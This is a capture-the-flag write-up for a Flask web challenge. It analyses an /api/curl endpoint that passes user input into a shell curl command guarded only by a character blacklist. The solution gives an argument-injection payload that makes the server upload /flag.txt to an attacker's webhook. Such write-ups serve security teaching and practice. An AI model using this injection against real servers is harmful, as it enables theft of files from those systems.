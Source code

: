 ## Connect

<br>

![image](https://user-images.githubusercontent.com/64314534/235333457-a9b5cf23-58a9-4e2d-8d9c-a84cdd29ebe2.png)


This is an Ez web code review challenge (flask) .

<br>

![image](https://user-images.githubusercontent.com/64314534/235333506-1adefff2-669a-4390-bd87-818327e748fc.png)

<br>

All we need is  to start reviewing is the `app.py` file 
<br>

![image](https://user-images.githubusercontent.com/64314534/235333528-af212f02-f06a-4232-a99e-f0050be0dad9.png)

<br>
 
## Let's analyze the code:

<br>

![image](https://user-images.githubusercontent.com/64314534/235333601-450db13c-f1ad-450a-b68b-cd61803637f0.png)

<br>

The application had two routes ['/','/api/curl']

The index route just viewing the index.html file

The `/api/curl` route is doing the following : 
- Take `ip` POST parameter from the HTTP request and store it's value in `url` variable.
- Pass the url to `escape_shell_cmd` function and check if it returns true or false
- If the function returned true our input will be injected in `command` variable which will be like this : 
`curl -s -D - -o /dev/null  our_input | grep -oP '^HTTP.+[0-9]{3}'` 
- Then it will Exexcuted the command variable and check if the `HTTP` string is in the output and if not it will not print the response.
-If the function returned false so, the response will be `Illegal Characters Detected`

<br>

The escape_shell_cmd function will do the following:

<br>

![image](https://user-images.githubusercontent.com/64314534/235346220-eceff5a9-356e-4077-8dd5-1fd97833762e.png)

<br>

- Take an input and check if it contains some illegal chars like :`'&#;\`|*?~<>^()[]{}$\':` 
- If the string had any of these chars the function will return false
- If the string hadn't any of these chars it will return true


## Solution

- Even the function is bypassable but we can solve it by just uploading the flag file to our server by this payload

`-F f=@/flag.txt http://your_web_hook`
so, the command will be like this :
`curl -s -D - -o /dev/null -F f=@/flag.txt http://your_web_hook`

and we will recive the flag : 

<br>

![image](https://user-images.githubusercontent.com/64314534/235347270-f09b06d2-9793-4a2a-8072-3e521ce8dba6.png)

<br>
